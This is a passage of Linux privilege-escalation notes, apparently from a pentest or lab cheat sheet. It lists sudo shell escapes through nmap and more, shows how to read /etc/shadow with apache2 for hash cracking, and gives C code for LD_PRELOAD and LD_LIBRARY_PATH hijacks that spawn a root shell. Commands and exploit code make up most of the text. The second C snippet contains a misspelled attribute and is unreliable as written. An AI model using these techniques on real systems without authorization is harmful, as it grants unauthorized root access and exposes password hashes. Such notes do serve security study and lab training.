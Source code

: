 `sudo nmap --interactive`
`nmap> !sh`

10. /bin/more [GTFOBins link](https://gtfobins.github.io/gtfobins/more/)

`TERM= sudo more /etc/profile`
`!/bin/sh`

11. /usr/sbin/apache2 Not on GTFOBins 

Use `sudo apache2 -f <FILE>` to view privileged files e.g /etc/shadow for hash cracking

### Sudo - Environment Variables

Sudo can be configured to inherit certain environment variables from the user's environment.

Use `sudo -l` to view inherited environment variables (env_keep).

LD_PRELOAD and LD_LIBRARY_PATH are both inherited from the user's environment.

LD_PRELOAD loads a shared object before any others when a program is run.

LD_LIBRARY_PATH provides a list of directories where shared libraries are searched for 
first.

Create a shared object using the following code as preload.c

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
        unsetenv("LD_PRELOAD"); 
        setresuid(0,0,0);
        system("/bin/bash -p");
}     
```

`gcc -fPIC -shared -nostartfiles -o /tmp/preload.so <PATH>/preload.c`

Run a program you are allowed to run as sudo

`sudo LD_PRELOAD=/tmp/preload.so <PROGRAM-NAME-HERE>`

Run ldd against apache2 to see which shared libraries are used by the program

`ldd /usr/sbin/apache2`

Create a shared object with the same name as one of the listed shared libraries using the
code below as library_path.c

```
#include <stdio.h>
#include <stdlib.h>

static void hijack() __atribute___((constructor));

void hijack() {
		unsetenv("LD_LIBRARY_PATH");
		setresuid(0,0,0);
		system("/bin/bash -p");
}
```
